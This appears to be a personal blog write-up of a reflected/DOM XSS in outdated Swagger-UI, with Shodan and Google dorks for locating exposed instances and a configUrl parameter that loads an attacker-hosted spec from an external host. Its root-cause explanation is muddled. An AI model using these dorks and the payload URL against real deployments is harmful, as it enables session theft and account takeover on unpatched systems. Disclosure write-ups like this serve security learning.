

---

السَّلَامُ عَلَيْكُمْ و رحمة الله وبركاته

peace be upan you !

Welcome to my first write-up, where I share the exciting tale of my discovery and reporting of a simple yet impactful XSS bug in Swagger-ui.

so, lets go on and start with a short intro about the vulnerablity!

## Swagger-UI’s XSS :

Swagger-UI, a popular tool for designing, building, and documenting APIs, provides a user-friendly interface for developers to explore and interact with API endpoints. However, like any web application, Swagger-UI is not immune to security vulnerabilities.
and The root cause is that Swagger-UI allows users to provide a URL for an API specification, such as a YAML or JSON file in outdated version of DomPurify, an XML sanitizer library for HTML, MathML, and SVG. . To view and render them, you add a query parameter. It would be possible to trigger an XSS attack by loading a malicious!!

### The Story Unfolds: The Journey Begins!!

so During my exploration of the Swagger-ui application, that I found via shodan by using specific Dorks! Here are a few dorks that you can use to search in Shodan for Swagger-UI:

```
"Swagger-UI"
"Swagger-UI title:Swagger UI"
"Swagger-UI port:80"
"Swagger-UI http.component:swagger-ui"
"Swagger-UI http.favicon.hash:-116323821"

```

also u can use Google Dorks :

```
site:example.com intitle:"Swagger UI"
inurl:"swagger-ui.html"
intitle:"index of" swagger-ui
intext:"Powered by Swagger UI"
site:github.com inurl:swagger-ui
```

so ! I stumbled upon a potential XSS vulnerability. By appending a specific parameter to the Swagger UI URL, I was able to inject and execute arbitrary JavaScript code. The steps to reproduce the bug were as follows:

- Visit the Swagger UI URL:

```
 https://127.0.0.1/swagger/index.html.
```

- Append the following to the URL:

```
?configUrl=https://tearful-earth.surge.sh/test.json.
```

- The resulting URL should be:

```
 https://127.0.0.1/swagger/index.html?configUrl=https://tearful-earth.surge.sh/test.json.
```



## Impact of Cross-Site Scripting:

Cross-site scripting attacks can have severe consequences and enable attackers to achieve various malicious goals. Some of the potential impacts include:

- Cookie Theft: Attackers can exploit XSS vulnerabilities to steal users' cookies, which may contain sensitive information such as session tokens or login credentials. With this information, the attacker can impersonate the victim and gain unauthorized access to their accounts.

- Local Storage Access: XSS can be used to access and extract data stored in the victim's local storage. This could include personal information, sensitive documents, or any other data stored by the web application.

- Keyloggers: Attackers can leverage XSS to inject keylogging scripts, enabling them to capture keystrokes made by users. This can lead to the theft of sensitive information, such as passwords or credit card details.

- Phishing Attacks: XSS vulnerabilities can be exploited to display convincing phishing forms or pop-ups to users, tricking them into revealing their credentials or other sensitive information.

---

As I conclude this article, I hope that my journey of uncovering an XSS bug has ignited a spark within you. Whether you're a security professional or just starting your exploration of the web security realm, remember that every bug, no matter how small or seemingly insignificant, has the potential to make a significant impact.

###### thanks fot reading :)

## Refernce :

- https://blog.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
- https://portswigger.net/daily-swig/widespread-swagger-ui-library-vulnerability-leads-to-dom-xss-attacks
